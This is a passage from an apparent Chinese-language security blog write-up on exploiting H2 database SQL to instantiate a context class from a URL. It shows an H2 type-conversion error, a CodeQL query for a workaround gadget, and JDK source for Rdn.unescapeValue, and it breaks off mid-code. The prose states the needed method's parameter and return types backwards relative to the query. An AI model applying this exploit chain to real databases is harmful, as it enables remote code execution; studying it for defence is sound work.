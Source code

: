 不过这里存在一个问题, 如果直接这样执行 SQL 语句的话会报错

```sql
Caused by: org.h2.jdbc.JdbcSQLDataException: Data conversion error converting "CHARACTER VARYING to JAVA_OBJECT"; SQL statement:

CALL NEW_INSTANCE(@context_clazz, ARRAY[@string_clazz], ARRAY[@url_str]) [22018-232]
```

这是由于 H2 不支持 `JAVA_OBJECT` 与 VARCHAR (CHARACTER VARYING) 类型之间的转换

[https://github.com/h2database/h2database/issues/3389](https://github.com/h2database/h2database/issues/3389)

上面的 `@url_str` 属于 VARCHAR 类型, 而 ReflectUtils.newInstance 传入的参数 args 属于 Object 类型

![image-20250323113345506](https://img.exp10it.io/2025/03/34861210e0f81b77.png)

解决办法是找一个参数是 Object 类型并且返回值是 String 类型的静态方法, 间接实现类型的转换, 可以使用 CodeQL/Tabby 或者手工查找

```sql
import java

from Method m
where
  m.isPublic() and
  m.isStatic() and
  m.getNumberOfParameters() = 1 and
  m.getAParameter().getType() instanceof TypeString and
  m.getReturnType() instanceof TypeObject
select m
```

我选择的是 `javax.naming.ldap.Rdn.unescapeValue` 方法

```java
public static Object unescapeValue(String val) {

    char[] chars = val.toCharArray();
    int beg = 0;
    int end = chars.length;

    // Trim off leading and trailing whitespace.
    while ((beg < end) && isWhitespace(chars[beg])) {
        ++beg;
    }

    while ((beg < end) && isWhitespace(chars[end - 1])) {
        --end;
    }

    // Add back the trailing whitespace with a preceding '\'
    // (escaped or unescaped) that was taken off in the above
    // loop. Whether or not to retain this whitespace is decided below.
    if (end != chars.length &&
            (beg < end) &&
            chars[end - 1] == '\\') {
        end++;
    }
    if (beg >= end) {
        return "";
    }

    if (chars[beg] == '#') {
        // Value is binary (eg: "#CEB1DF80").
        return decodeHexPairs(chars, ++beg, end);
    }

```